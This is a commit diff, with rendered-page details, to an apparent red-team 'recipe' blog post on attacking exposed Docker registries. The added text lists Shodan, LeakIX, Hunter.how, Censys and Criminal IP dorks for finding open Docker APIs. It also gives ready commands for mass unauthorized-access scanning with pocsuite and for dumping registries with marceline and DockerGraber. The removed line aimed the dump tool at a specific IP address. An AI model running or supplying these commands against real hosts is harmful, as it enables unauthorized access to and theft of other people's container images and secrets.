

Before and after one commit to redteamrecipe/redteamrecipe.github.io, a Jekyll site: the page built from _posts/2023-01-11-opendocker.md, in a window 1280 px wide and 1400 px high, scrolled down 1147 px. Shown: the top 846 px of the window, without its empty margins (118-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2023-01-11-opendocker.md

````diff
--- a/_posts/2023-01-11-opendocker.md
+++ b/_posts/2023-01-11-opendocker.md
@@ -16,15 +16,60 @@
 `code:`RTR0001
 
 
-###### Reconnaissance
+##### Reconnaissance
+
+###### Criminal IP
 
 ```
 https://www.criminalip.io/asset/search?query=html_meta_title:%20v2/_catalog
 Docker Registry HTTP API
+
 ```
+
+###### Shodan
+
+```
+port:2375 docker
+"Docker Registry HTTP API"
+```
+
+###### LeakIX
+
+```
++plugin:DockerSearchOpenPlugin
+```
+
+###### Hunter.how
+
+```
+web.body="Docker Registry HTTP API"
+```
+
+
+####### Censys
+
+```
+Docker Registry HTTP API
+```
+
 
 ###### Initial Access
 
+
 ```
-python3 ../DockerGraber.py http://87.248.153.210 -p 5000 --list
+pocsuite -r pocs/docker_unauthorized_access.py --dork "country:'XYZ'" --threads 10 --search-type host --max-age 1
 ```
+
+###### Dump Indice
+
+###### Marceline
+
+```
+marceline --node x.x.x.x --full
+```
+
+###### DockerGraber
+
+```
+DockerGraber.py http://example.com --dump_all
+```
````
